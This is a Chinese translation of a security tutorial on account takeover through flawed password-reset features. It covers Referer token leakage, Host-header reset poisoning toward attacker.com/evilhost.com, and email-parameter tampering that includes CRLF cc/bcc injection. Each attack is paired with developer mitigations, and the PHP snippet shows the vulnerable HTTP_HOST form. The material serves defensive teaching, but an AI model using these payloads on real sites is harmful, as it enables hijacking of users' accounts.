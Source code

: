 # 使用易受攻击的密码重置功能接管用户帐户

> 原文：<https://levelup.gitconnected.com/user-account-takeover-using-vulnerable-password-reset-features-e1fe1dbd8a14>

*在本文中，我们将探讨密码重置功能中的漏洞，这些漏洞会让攻击者接管用户帐户。其中一些漏洞是设计造成的，这意味着该功能的实现不正确，而其他漏洞是由恶意操作造成的，如单击攻击者的链接。对于开发者和用户来说，了解这些漏洞的来源非常重要，因为密码重置功能在登录表单中被大量使用。*

![](img/4b7736a6101cf67c763883ed59aa8437.png)

密码重置功能可以说是任何网站都可以拥有的最重要的功能之一。作为用户，你很难记住所有不同账户的密码。如今，普通互联网用户拥有一个电子邮件、一个脸书、Instagram、LinkedIn 和 Twitter 账户，最有可能的是几个需要他进行身份验证的实用程序，如电子银行应用程序或移动运营商应用程序。你可能会告诉我，用户不应该记住所有的密码，他可以将密码保存在他的设备上。这有两个很大的不便:

*   保存密码将帮助您更快地忘记密码，这将迫使您经常使用恢复功能
*   更换设备还会删除你所有的密码，除非它们都被备份到云中，对此我深表怀疑

我知道你在想什么:你想用你的出生日期或你配偶的中间名作为你的密码。没有必要告诉你这可能不是最好的主意。

总而言之，密码恢复功能不会很快普及。所以更好的理解如何正确使用，避免用户账号被接管。

**密码重置令牌通过推荐人泄漏**

`Referrer`报头是一个 HTTP 报头，它有时出现在 HTTP 请求中，用于与发出请求的主机服务器进行通信。例如，在下面的请求中，主机`example.com`是通过用户的 LinkedIn 页面访问的，GET 请求将包含一个`Referrer`头，告诉主机该请求来自 Linkedin。

```
GET /hello HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Host: www.example.com
Referrer: www.linkedin.com/feed
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Connection: Keep-Alive
```

现在假设一个用户正在使用某个应用程序，他进入了登录页面。在同一页面的底部导航栏中，有指向外部网站(如社交媒体帐户)的链接。我在网上经常遇到这样的网页。现在，当用户点击忘记密码按钮时，他将收到一封电子邮件，该邮件会将他重定向到 web 应用程序上的一个页面，在那里他可以更改密码。如果您查看重置页面上的 URL，它包含某种代码或令牌。这个令牌是服务器识别用户并相应更改密码的唯一方法。让我们想象一下，用户点击导航栏底部的一个社交媒体标志，而不是更改密码和提交表单。在易受攻击的应用程序中，URL 中存在的令牌将通过`Referrer`头泄露给第三方社交媒体平台。这将允许主机更改您的密码。

```
GET /somefacebookpage HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Host: www.facebook.com
**Referrer: www.vulnerable-app.com/reset-password?token=A7D8f512hgxde** Accept-Language: en-us
Accept-Encoding: gzip, deflate
Connection: Keep-Alive
```

为了缓解这一漏洞，开发人员应该创建安全的重置页面，并测试其网站的令牌泄漏。

以下几个因素减轻了泄漏的严重性:

*   一旦用户完成密码重置表单，大多数密码重置令牌就会失效，因此使用泄露的密码重置链接的窗口可能会非常小。
*   除非用户生成的内容被不正确地呈现在密码重置页面上，否则攻击者无法控制令牌被泄露到哪些站点。
*   如果令牌被泄露，它很可能被泄露到您认为是可信任的合作伙伴的站点。

**通过密码重置中毒接管账户**

一些应用程序错误地构建了要发送到用户电子邮件的重置密码 URL。这可能会对安全性造成毁灭性的影响，因为这个漏洞非常容易被利用。我会告诉你怎么做。

假设我是一名攻击者，我想在一个第三方应用程序上泄露您的帐户，该应用程序包含一个糟糕的重置密码功能。

我将在重置密码文本框中键入您的电子邮件，然后按重置密码按钮。我将通过 Burp 代理请求，并修改`Host`头，如下所示:

```
Host: attacker.com*OR*Host: target.com 
X-Forwarded-Host: attacker.com*OR*Host: target.com
Host: attacker.com
```

易受攻击的应用程序将构建一个重置链接，并将其设置为受害者的电子邮件，以重置其密码。如果电子邮件中的重置链接是基于请求的`Host`头构建的，它将如下所示:

```
https://evilhost.com/reset-password.php?token=12345678-1234-1234-1234-12345678901
```

当用户点击它时，他将令牌发送给攻击者主机，攻击者主机现在可以修改用户的密码并接管他的帐户。

![](img/eba9fc6df01aa4f1d937e5d05349b0f4.png)

**密码重置中毒——归功于 CyPH3R**

开发人员可以通过在生成密码重置链接时使用`$_SERVER['SERVER_NAME']`而不是`$_SERVER['HTTP_HOST']`来缓解此漏洞。

```
$resetPasswordURL **=** "https://{$_SERVER['HTTP_HOST']}/reset-password.php?token=12345678-1234-1234-1234-12345678901";
```

**通过操作邮件参数重置密码**

一些密码重置功能向 web 应用服务器发送`POST`请求，其中包含想要重置其帐户的用户的电子邮件参数。当服务器没有正确解析和清除电子邮件参数时，就会出现此漏洞。攻击者可以利用这一点，篡改电子邮件参数，并将重置链接发送到他的个人电子邮件，而不是受害者的地址。

在忘记密码页面上，攻击者插入受害者的电子邮件并点击重置按钮。他使用打嗝来拦截请求。通常看起来是这样的:

```
POST /resetPassword 
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Host: [www.vulnerable-website.com](http://www.vulnerable-website.com)
Content-Type: application/x-www-form-urlencoded
Content-Length: some-length
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Connection: KeepAliveemail**=**victim@email.com
```

攻击者可以通过使用几种方法添加他的电子邮件来更改`email`参数:

```
email=victim@email.com**&**email=attacker@email.com
email=victim@email.com**%20**email=attacker@email.com
email=victim@email.com**|**email=attacker@email.com
email="victim@mail.tld"**,**email="attacker@mail.tld"
```

或者将自己放入重置邮件的**抄送**或**密件抄送**:

```
email="victim@mail.tld%0a%0d**cc:**attacker@mail.tld"
email="victim@mail.tld%0a%0d**bcc:**attacker@mail.tld"
```

为了减轻这种攻击，开发人员需要在使用 email 参数之前正确解析并清除它的值。

**通过 API 参数更改任何用户的电子邮件和密码实现完全账户接管**

在某些情况下，当用户输入新密码并点击“更改密码”按钮时，会向服务器发出一个非常奇怪的请求:

```
POST /changePassword 
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Host: [www.vulnerable-website.com](http://www.vulnerable-website.com)
Content-Type: application/x-www-form-urlencoded
Content-Length: some-length
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Connection: KeepAliveemail="victim@email.tld"&password="12345678"
```

如果你在修改密码时看到这样的请求，希望它不是由编写你的电子银行应用程序的同一个开发人员编写的。

攻击者可以使用 Burp 拦截此请求，并通过更改电子邮件和密码参数的值来更改任何电子邮件帐户的密码。切勿使用此实现来更改密码。

还有其他方法，如尝试猜测重置令牌是如何构造的，并尝试为受害者电子邮件地址生成一个，使用过期令牌、强力重置令牌或使用他们自己的令牌来重置受害者的密码。一个好的开发者应该知道所有这些方法，通过遵循最佳实践在他的网站上构建可靠的功能。

*如果你对网络安全感兴趣，可以看看我下面的文章:*

*   [使用 Word 文档或*。docx "文件来获得对私有服务器资源的未授权访问*](/using-word-documents-or-docx-files-to-gain-unauthorised-access-to-server-private-resources-2477b3eafb7b)
*   [*基于 Zip 的漏洞利用:Zip Slip 和 Zip Symlink 上传*](/zip-based-exploits-zip-slip-and-zip-symlink-upload-21afd1da464f)
*   [*利用 Web 服务器上的 CORS 错误配置漏洞*](https://medium.com/swlh/exploiting-cors-misconfiguration-vulnerabilities-2a16b5b979?sk=e3f3aedc21d0ba0da1885758ad4322ab)